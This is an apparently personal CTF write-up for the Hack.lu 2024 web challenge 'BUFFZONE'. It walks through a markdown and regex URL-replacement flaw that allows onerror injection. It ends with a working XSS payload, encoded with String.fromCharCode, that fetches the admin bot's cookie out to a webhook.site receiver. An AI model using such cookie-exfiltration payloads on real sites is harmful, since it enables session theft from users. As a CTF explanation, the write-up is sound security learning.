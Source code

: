 ```yaml
---
title: "Hack.lu CTF 2024: BUFFZONE"
date: 2024-12-11T14:06:00+08:00
categories: CTF
---
```


ik this is like 1 month ago but i was busy with working on udg2 april fools so here we are\
this was the most solved chall but i spent an embarrasingly long time solving it\
guess i have a massive skill issue

# challenge
![starting page](images/buffzone1.png)
we're presented with a textbox input here, which will display a message on the page when it's submitted, along with a button that shares our message with the admin bot\
![message display](images/buffzone2.png)
the admin bot carries a flag cookie on its visit, so i figured i need to make the bot send the cookie to us somehow

# analyzing
before rendering our message, the website filters it first:
```js
function replaceUrls(text) {
    let regex = /(https:\/\/.*?)\s/gi;
    let replacedText = text.replace(regex, '<a href="$1">$1</a>');
    return replacedText;
}
// ...
app.get("/buffzone", (req, res) => {
    let message = req.query.message;
    if (message) {
        res.render("buffzone", { message: replaceUrls(md.render("**" + message + "**")) })
    }
    else {
        res.redirect("/")
    }
});
```
our message is first rendered as a bold text in markdown, then the urls made into a hyperlink tag if there's any\
finding a vulnerability on markdown-it seems impossible (i only realized that hours in) so our focus is likely replaceUrls function

# solving
after messing around i realized that our message is put into the tag without any changes\
this means we can inject onerror by `https://"onerror=alert(1)"`! :clueless:
![wrong answer](images/buffzone3.png)
nope\
checking backend, the markdown might've turned our quotation mark into character entities. aw
```html
2024-12-13 10:16:34 Received: <p><strong>https://&quot;onerror=alert(1)&quot;</strong></p>
2024-12-13 10:16:34 Replaced: <p><strong><a href="https://&quot;onerror=alert(1)&quot;</strong></p>">https://&quot;onerror=alert(1)&quot;</strong></p></a>
```
so we need to find a way to inject without sending double quotations\
after googling, i decided to try hyperlinks: `![](https://onerror=alert(document.domain)/)`
![alert](images/buffzone4.png)
whats up localhost\
since markdown renders our hyperlink as an img tag, which has a quotation mark in itself (src="")\
the replaceUrls function will close the src attribute, letting us inject onerror\
we can confirm this on the backend:
```html
2024-12-13 10:26:30 Received: <p><strong><img src="https://onerror=alert(document.domain)/" alt=""></strong></p>
2024-12-13 10:26:30 Replaced: <p><strong><img src="<a href="https://onerror=alert(document.domain)/"">https://onerror=alert(document.domain)/"</a>alt=""></strong></p>
```
now we just have to make the bot send the cookie!

# payload
i used webhook.site as a request receiver:
```js
fetch('https://webhook.site/insert-id-here-brah/?c=' + document.cookie)
```
however don't forget the server will replace the https link\
so during ctf i converted the whole thing to numbers, then used String.fromCharCode\
this was my final payload:
```
![](https://onerror=fetch(String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,100,50,49,100,53,97,49,51,45,51,48,100,56,45,52,101,51,100,45,56,101,98,54,45,49,101,101,49,53,97,55,56,98,48,54,100,47,63,99,61).concat(document.cookie))/)
```
and we should get our flag!...
![](images/buffzone5.png)
if only i had remembered it. i couldn't get docker to work lol\
anyways this chall was fun and also broke my 0 solve streak a month ago . happy fortune